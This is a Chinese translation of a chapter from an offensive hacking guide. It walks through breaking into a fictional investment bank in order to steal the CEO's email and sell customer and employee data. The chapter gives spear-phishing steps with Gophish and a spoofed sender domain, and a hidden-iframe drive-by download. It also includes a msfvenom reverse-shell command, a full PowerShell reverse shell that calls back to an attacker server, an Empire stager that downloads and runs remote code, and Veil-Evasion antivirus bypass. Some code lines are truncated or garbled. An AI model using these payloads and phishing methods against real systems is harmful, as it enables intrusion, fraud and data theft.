# 第二章、入侵

> 万物皆有裂缝，这就是光线进入的方式。 -- *伦纳德科恩（Leonard Cohen）*

您找到了匿名免费接入互联网的完美地点，您已经设置了TOR / VPN网络，并且您有一个VPN充当前置堡垒。你感到颤抖，你准备好了！

我们的（假）目标将是一家名为Slash＆Paul's Holding（后续简称SPH）的公司。它是一家投资银行，为世界上一些最富有的客户管理资产。他们并不是特别邪恶;他们碰巧有巨额资金。

在启动我们的工具和技巧之前，先停一停，再次明确我们的（非）神圣目标：
+ 我们希望获得CEO的电子邮件，因为这只是一个常规操作！
+ 我们还想窃取和销售业务和人力资源数据：帐号，信用卡数据，员工信息等。
+ 但最重要的是，我们希望在各类监控手段下自由翱翔。

SPH的基础设施以广泛而简单的方式看起来可能如下所示：


当然，这个图表过于简单化，因为真正的网络可能要复杂得多。但我们总会找到相同的通用元素:
- 非军事区（DMZ），以下称为蓝箱。它通常托管面向互联网的服务器，这使得所有标准都成为“不受信任”的区域，尽管有些公司坚持要求它几乎完全访问内部网络。
- 一个绿箱（对应上面的蓝箱），代表内部网络。它托管工作站，业务应用程序，电子邮件服务器，网络共享等。
- 然后是黑暗区域 - 我们根本不知道那里有什么。

这一切都取决于SPH的网络配置。在一个简单的工作中，大多数关键服务器都将是在绿箱中托管，将暗区缩小到包含一些相机和手机的小部分。但是，越来越多的公司正在转向保护防火墙层面的最重要资产，创建多个小型，孤立的网络。

但是，让我们不要走得太远，而是专注于下一步：如果我们足够幸运的话，在蓝箱(Bluebox)上面建立一个温暖的巢 - 甚至是绿箱(Greenbox)。

我们有几种选择:
-  网络钓鱼。到目前为止最受欢迎的选择;我们会在一点点看到原因。
-  攻击Bluebox中的公共服务器。更难，但效率更高。
-  需要虚假USB棒，硬件植入等的社会工程的深奥形式。我们将把它留给真正有动力的黑客。

## 2.1 钓鱼邮件

网络钓鱼是诱骗用户以某种方式削弱公司安全性的行为：点击链接，泄露密码，下载看似无害的软件，将钱汇到某个帐户等等。

经典的网络钓鱼攻击会针对成百上千的用户，以确保取得一定程度的成功。有针对性的网络钓鱼活动可以高达30％成功率。一些更隐蔽的攻击行为可能会针对少数关键员工高度定制邮件消息，即鱼叉式网络钓鱼。
从黑客的角度来看，网络钓鱼攻击是为了一个简单的原因而进行的攻击：如果我们成功，我们就会控制位于Greenbox内部的机器。这就像坐在公司办公室里，同时在公司网络上有一个帐户。无价！

现在，对于我们的网络钓鱼活动，我们需要一些关键要素:
- 员工列表及其电子邮件地址。 
- 一个好的电子邮件创意。
- 一个电子邮件发送平台。
- 一个隐蔽性好的恶意文件，让我们访问用户的机器。

让我们按顺序处理它们。

### 2.1.1.电子邮件
几乎每家公司都有一个公开网站，我们可以浏览以获取有关其业务，专业领域和联系信息的基本信息：常用电子邮件地址，电话号码等。
公司的电子邮件地址很重要，因为它提供了两个关键要素:
- 他们的电子邮件服务使用的域名（可能与官方网站的地址相同或不同）
- 电子邮件的格式：例如，是'name.surname@company.com'还是'first_letter_surname.name@company.com'？

访问网页 www.sph-assets.com/contact 时，我们会找到一个通用的联系地址：marketing@sph-assets.com。这本身并不是很有帮助，但只是发送电子邮件到这个地址将使我们得到在市场部门工作的真实人的回复。



非常好，我们从这封电子邮件中获得了两条有价值的信息:
- 电子邮件地址格式：姓氏的第一个字母后跟名字：pvilma @sph-assets.com。
- 电子邮件的图表：默认字体，公司图表颜色，签名格式等。

这些信息很关键，因为现在我们只需要在那里工作的人的全名来推断他们的电子邮件地址。感谢Facebook，Twitter和LinkedIn，这是小菜一碟。我们只需查看公司页面，找出喜欢使用它们的人，关注它或分享其内容。

可以用来自动执行此过程的一个有趣工具是TheHarvester ，它收集Google / Bing / Yahoo搜索结果中的电子邮件地址。然而，诉诸社交媒体可以提供最准确，最新的结果。

### 2.1.2.电邮内容
对于我们的网上钓鱼攻击，我们希望邀请其他人打开一个会执行恶意程序的文件。因此，我们的电子邮件需要足够吸引人，以便人们立即打开它，而不仅仅是打打哈欠然后归档它。

下面，你会发现一些想法，但我相信你可以拿出一些更狡猾的东西：
- 最新报告显示销售额急剧下降。
- Urgent 紧急发票需要立即结算。
- 最新的彭博报道。股东调查结果。
- 即将采访的一个新经理的简历。


电子邮件的内容应简明扼要，并模仿我们之前确定的公司电子邮件格式。电子邮件的源地址可能是您可以提出的任何虚构名称。实际上，大多数电子邮件服务器都允许您指定任何源地址而无需执行适当的验证。


互联网有很多开放的SMTP服务器，我们可以用来自由发送电子邮件，但我们只需要尽可能简单地设置我们自己的电子邮件服务器，它将连接到sph-assets.com并推送网络钓鱼邮件。相当全面而自动化的工具是Gophish。


一旦运行这个平台后，您就可以开始创建你的活动了。
我们首先配置“发送配置文科”：源电子邮件地址和SMTP服务器（localhost）。理想情况下，我们希望电子邮件地址靠近IT_support@sph-assets.com，但是，SPH的电子邮件服务器很可能禁止任何传入的电子邮件设置为xxx@sph-assets.com，这非常有意义。来自“@sph-assets.com”的所有电子邮件都应来自内部网络，而不是互联网。


因此，在“发送配置文件”菜单中，我们需要指定另一个域名，例如 sph-group.com。发送电子邮件不需要存在此域名。不要费心去创造它。此外，只要我们提出别名：“IT支持”<it-support@sph-group.com>，人们通常不会关注电子邮件发件人。



我们在“用户和群组”菜单中添加我们想要定位的用户，然后转到“电子邮件模板”以编写我们的消息内容：




我们设计电子邮件的内容的方式类似于我们从市场人员那里获得的电子邮件（相同的签名，相同的图表颜色，相同的字体等）。该电子邮件将邀请用户单击下载文件的链接。该链接将由GoPhish自动填写（多亏{{.URL}}变量，如此的自动化）。
包含链接而不是直接附加恶意文件可以降低被垃圾邮件过滤器捕获的可能性。


我们在http://www.noip.com/上为前线阵地（Front Gun）服务器注册了一个免费的DNS名称。像sph- group.ddns.net这样的东西已经足够了。我们稍后在启动行动时，需要将此DNS名称指定为变量{{.URL}}的值。

由于我们不需要诱骗用户向我们提供凭据，因此我们不关心网页的内容。我们将自动触发文件下载，然后将其重定向到真正的SPH网站。在Gophish的“登陆页面”菜单中，我们粘贴以下代码:

```
<html>	
<iframe width="1" height="1" frameborder="0" src=" [File location on Gophish machine]"></iframe>
<iframe width="1" height="1" frameborder="0" src=" [File location on Gophish machine]"></iframe>
</html>
```


除了一个小细节：恶意软件之外，网络钓鱼活动已准备好启动。这将成为下一章的主题。

### 2.1.3 恶意文件
关于我们可以发送目标的文件类型，有几种可能性。但是，可执行（.exe）文件非常可疑，并且将被所有电子邮件客户端丢弃。我们将使用一些更聪明的东西：一个包含恶意代码的excel电子表格，它可以回连我们的服务器，获取执行命令，然后发回结果：反向shell。


#### 1)纯VBA
Visual Basic是一种脚本语言，可以嵌入到Office文档（Word，Excel，PowerPoint等）中。它在企业界大量使用用以处理数据。因此，员工习惯于在打开文档时执行宏（VBA代码）。

如果您是VBA专家，我相信您可以快速创造能与我们的Front Gun服务器通信的代码，检索执行命令，然后在受感染的计算机上执行它们。然而，由于VBA对我来说绝非小菜一碟，所以我将依靠自动框架提供的多种工具来攻击系统和生成有效载荷:Metasploit. 它默认安装在Kali Linux上。


由于我们首先要测试代码，因此我们使用Netcat工具在Front Gun服务器上设置了一个监听器。它通常被称为黑客的瑞士军刀。它只是发送和接收原始套接字连接，但它也可以用于获取反向shell，传输文件等。

此命令将打开端口443并等待传入连接：
`root@FrontGun:~# nc -l -p 443	` 
接下来，我们使用Metasploit的msfvenom 用于生成恶意VBA攻击载荷：
```
root@FrontGun:~# msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp -e generic/none -f vba lhost=FrontGun_IP  lport=443
```
这将为x86架构生成反向shell攻击负载，无需任何特殊编码（通用/无）。我们将代码复制/粘贴到Excel宏中:



如果我们检查生成的代码，我们知道它执行以下操作:
- 通过调用过程Workbook_Open（在上图中不可见）打开文档时启动攻击负载;
- 定义一个包含执行反向连接和代码执行的实际代码的数组。它在x86汇编中，因此独立于所使用的语言（VBA，PowerShell等）;
- 分配一些可执行内存，然后shell代码会被复制并执行。

Metasploit几乎总是遵循这种模式来生成其有效载荷，无论使用何种语言。这使得防病毒解决方案能够标记此工具生成的任何内容变得微不足道。对隐身来说完全够用了。

我们可以轻松地添加加密函数来加密保存shellcode的变量，但让我们尝试一种全新的方法来减少障碍。

#### 2)PowerShell救援

PowerShell是Windows上最强大的脚本语言之一。它已迅速成为管理员最信任的工具 - 同样也是黑客最心爱的情妇。在这个网页上查看一些非常好的PS工具。

遵循与以前相同的模式，我们希望在PowerShell中生成反向shell，然后将其嵌入到Office文档中。我们从PS脚本开始。
```
#Open a socket connection
$client = New-Object System.Net.Sockets.TCPClient("FGUN_IP",4444);
$stream = $client.GetStream();

#Send shell prompt

$greeting = "PS " + (pwd).Path + "> "
$sendbyte = ([text.encoding]::ASCII).GetBytes($greeting)
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flus [byte[]]$bytes = 0..255|%{0};

#Wait for response, execute whatever’s coming, then loop back

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path +"> ";
    $sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};
$client.Close()
```

为了确保脚本正常工作，我们使用以下命令在普通的Windows机器上执行它：
`C:\examples> Powershell -Exec Bypass .\reverse.ps1 `


在Front Gun服务器上，我们在端口4444上设置了监听器:


漂亮！我们在远程（测试）机器上进行远程执行。理想情况下，我们希望使用类似的VBA代码来调用此脚本:

```VBA> Shell ("powershell c:\temp\reverse.ps1 ")```

但是我们需要在将脚本写入到目标磁盘上，这可能会触发更多告警。避免这种情况的一种方法是使用PowerShell的内联命令执行的强大功能！我们执行作为powershell.exe参数传递过来的一串代码，从而替代执行一个脚本文件。


我们首先在每条指令的末尾添加一个分号';':
```
$client = New-Object System.Net.Sockets.TCPClient("192.168.1.11",4444);
$stream = $client.GetStream();

$greeting = "PS " + (pwd).Path + "> ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($greeting);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flus [byte[]]$bytes = 0..255|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```


然后我们在Linux上用Unicode base64编码脚本的内容:
```
FrontGun$ cat reverse.ps1 | iconv -f UTF8 -t UTF16LE | base64
```




<br>
<br>

我们可以使用编码命令作为inline参数来调用此代码:


'-W hidden'参数将PowerShell隐藏在后台。最后一步是在用户打开Office文档时调用此过程 -  Launch_me（）:
```
Sub Workbook_Open()	
 	Launch_me()	 
End Sub
```

我们可以进一步调整这个VBA宏，使其不那么容易阅读，但仍然让它可以正常工作。一个有趣的工具是Lucky Strike。它提供了漂亮的功能，如使用用户的电子邮件域（@sph-assets.com）加密和其他有用的选项。


#### 3)The Empire strikes
之前的有效载荷很好，但在现场情况下它有一些主要的限制:
- 因为我们使用原始套接字来启动连接，所以使用Web代理访问互联网的工作站（很可能）将无法连接回来。
- 我们的Netcat监听器每次只接受一个连接。不适合针对数百名用户的网络钓鱼行动。
- 我们使用的shell是相当基本的。有一些自动命令可能会更有趣，例如启动键盘记录器，嗅探密码等。

这就是臭名昭着的PowerShell Empire 派上用场的地方。它是一个框架，提供一个能够处理多个受感染用户的监听器，但也为shell提供了一些有趣的命令，如获取明文密码，数据透视，权限提升等。


按照此博客文章[http://www.powershellempire.com/?page_id=110]下载并安装Empire PS（ 基本上复制Git存储库并启动 install. sh ）。


在欢迎屏幕上，转到监听器菜单（命令监听器）并列出默认位置info命令:



<br/>
通过发出set命令设置正确的端口和地址（例如，设置端口443）。然后通过发出run <Listener_name>来执行监听器。


现在我们需要生成回连此监听器的PowerShell代码。我们将这段代码称为“stager”或“agent”:
```
[SysTeM.NET.SErVicePOinTMaNAGer]::EXPeCt10 = 0;
$wC=NEw-ObjEct SYstEM.Net.WEbCLIenT;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
$Wc.HeaderS.Add('User-Agent',$u);
$Wc.PROXy= [SystEm.NEt.WebREQuest]::DefAuLtWEBPROxy;
$W [SYsTEM.NeT.CREDENtiAlCAChe]::DefAulTNeTwORK[chAr[]]$b=([cHaR[]] ($WC.DowNLOAdStrinG("http://<Front_Gun>:443/index.{$_-bXor$K[$i++%$k.LEngTH]};
IEX ($B-joIn'')
```
<br/>
您可以看到代理使用对称加密密钥来传输有效负载并很好地处理工作站上定义的任何潜在代理。在远程计算机上执行脚本时，我们会在Front Gun服务器上收到新通知。




我们将在接下来的章节中探讨Empire的一些有趣功能，但与此同时，您可以查看帮助命令以获得一个想法。

为了将此PowerShell脚本嵌入到Excel文档中，我们将使用普通的shell函数，如前所示，或依赖于LuckyStrike。


#### 4)Meterpreter  in VBA
为了替代使用PowerShell Empire的stager来获取shell，我们可以采取另一种方式，例如，通过部署一个来自Metasploit框架的meterpreter shell。就我们的直接目的而言，两个平台之间的差异相对较小。他们都有额外的模块来对受感染的工作站执行有趣的操作，但是使用两个分级器会增加绕过SPH的反恶意软件解决方案（防病毒，沙箱，IDS等）的几率。

如前所述，虽然metasploit的有效载荷（包括meterpreter）是反病毒公司所熟知的。他们一旦被目标接收就永远不会发出警报。为了克服这个障碍，我们将使用另一个自动添加多层加密和混淆的工具生成相同的meterpreter有效负载：Veil-Evasion（项目地址:https://github.com/Veil-Framework/Veil-Evasion ，Veil-Evasion是与Metasploit生成相兼容的Payload的一款辅助框架,并可以绕过大多数的杀软）。

回顾一下，Veil-Evasion将在PowerShell中生成一个模糊的meterpreter shellcode，这段代码将连接回连Front Gun服务器上的常规metasploit监听器，并让我们完全访问工作站。


非常漂亮。但是我们该怎么做呢？首先，我们需要在Linux上使用经典的apt-get install安装Veil-Evasion。安装时间有点长，但我们可以一次完成，非常简单直观：



list命令显示所有可用的有效负载。我们选择PowerShell  reverse_https有效负载：
```
>use powershell/meterpreter/rev_https
>set Proxy Y
>set LHost <FrontGun_IP>
>set LPort 443
>generate
```

这会生成两个文件:
- 执行PowerShell 有效载荷的meter.bat文件
- 一个预先配置的metasploit监听器：meter.rc

我们需要使用以下命令启动监听器:
```
FrontGun$ msfconsole -r meter.rc
```

然后我们可以测试meter.bat文件以确保它正常运行：


好的，现在要将此有效负载包含在Excel文件中，我们需要人工地深入了解代码。如果打开生成的meter.bat文件，您将看到其唯一目的是找出目标的体系结构并启动相应的PowerShell版本（x86或x64）：


您可能已经注意到，meter.bat文件还以内联方式调用PS脚本，尽管这种掩饰并没有对命令进行编码。我们可以在VBA中转换该体系结构验证例程，然后从meter.bat文件中借用命令，我们可以开始了。

如果我们想使用Lucky Strike，我们可以假设Excel最有可能在32位进程中运行（大多数情况下是安全的选择），选择适当的代码段，通过删除两个斜杠字符“ \”来进行清理，然后将其保存到一个名为meter.ps1的文件中:
```
Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New- Object IO.MemoryStream (,$([Convert]::FromBase64String("nVRtb9s4DP6eX0EYO [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();
```

我们执行这个meter.ps1文件来检查它是否仍然可以正常工作。现在我们有了正常的PowerShell文件，我们可以使用Lucky Strike生成适当的恶意Excel文件。

### 2.1.4 摘要
综上所述，我们使用Gophish建立了一个电子邮件发送平台，收集了一些目标员工，并准备了两种功能强大的Excel恶意软件变种，它们很可能能绕过大多数防病毒保护。

关于这种攻击媒介的妙处在于，如果攻击成功（实际上，我们看起来只需要数百名员工中的一个受害者），我们就能进入Greenbox！


为什么防病毒解决方案不是一个问题呢?

防病毒解决方案主要基于签名来工作：即，文件中被标记为恶意的特定数据包。例如，防病毒软件会标记恶意软件Trojan.Var.A !！通过检查代码中的以下字节序列：0xFC99AADBA6143A。有些编辑器可能具有代码分析，反转，随机性检查等高级功能。但是，实际上，核心引擎主要基于签名。


除了从头开始编码恶意软件的明显替代方案之外，还可以避免与任何已知的恶意软件匹配的特征，这是有关防病毒解决方案的一个重要事实，使它们易于完全绕过。

他们只扫描磁盘上的文件！如果下载恶意文件，则将其写入“下载”文件夹，并立即由防病毒软件扫描并标记。现在，如果同一恶意文件直接注入内存，只要它不接触磁盘，就会触发零警报。

为此，我们可以使用一小段称为暂存器的代码将恶意代码（加密或编码）保存在变量中。然后将该代码注入到内存中新的或已经存在的进程中。这样，就不会在磁盘上写入恶意文件。简而言之，这就是我们的Excel文件正在做什么。

为什么防病毒软件无法检测到暂存器？有时候会这样。但是与真正的恶意软件相反，暂存器只是几行代码，可以很容易地进行调整以逃避所有签名检测.

## 2.2 公众曝光
在等待网络钓鱼诈骗达到目标的同时，我们研究互联网侧以寻找访问SPH基础设施的新颖方法。在下一章中，我们将首先映射它们的所有可见机器及其提供的服务（网站，邮件服务，VPN等），然后奠定我喜欢称之为“寻找小突破的艺术”的基础  - 这种裂缝可能会给我们提供我们正在寻找的即兴邀请。
### 2.2.1.映射公共IP地址
我们的第一个线索（就此而言，这是唯一的线索）是公司的名称：Slash＆Paul’s Holdings。我们可以轻松找到他们的主要网站，这反过来又给我们带来了第二块拼图，即公共DNS记录：sph-assets.com。

但是，使用centralops.net（或domaintools.com），我们可以快速了解到，该网站的IP地址不是SPH拥有，而是Amazon拥有。因此，它不是位于Bluebox中，而是位于SPH数据中心之外的某个黑盒子当中。我们甚至不会费心去调查。


我们如何在Bluebox中找到真实的服务器？这很简单：我们枚举所有可能的DNS名称（* .sph-assets.com），检查其对应的IP地址，并查看centralops.net是否将SLASH＆PAUL HOLDINGS INC列为IP段的所有者。

诸如DNSRecon和DNScan之类的工具可自动执行此类请求，甚至提供最常用的子域列表来推动此搜索过程：Extranet.sph-assets.com，Lync.sph-assets.com，mail.sph-assets .com等

```
root@kali:~# dnsrecon -d sph-assets.com -t brt -D wordlists/domains_short.txt
```



一旦编译好域名和IP地址的列表后，我们再次查询centralops.net，以查看哪些真正位于SPH拥有的IP范围内。

就我们的场景而言，让我们假设SPH的公共IP都位于较小的子网172.31.19.0/25中，该子网承载以下Web应用程序:
- Up.sph-assets.com 
- Career.sph-assets.com 
- Info.sph-assets.com 
- Catalog.sph-assets.com

###  2.2.2.Web应用


> 翻译：2hu2huxia  2019/8/16


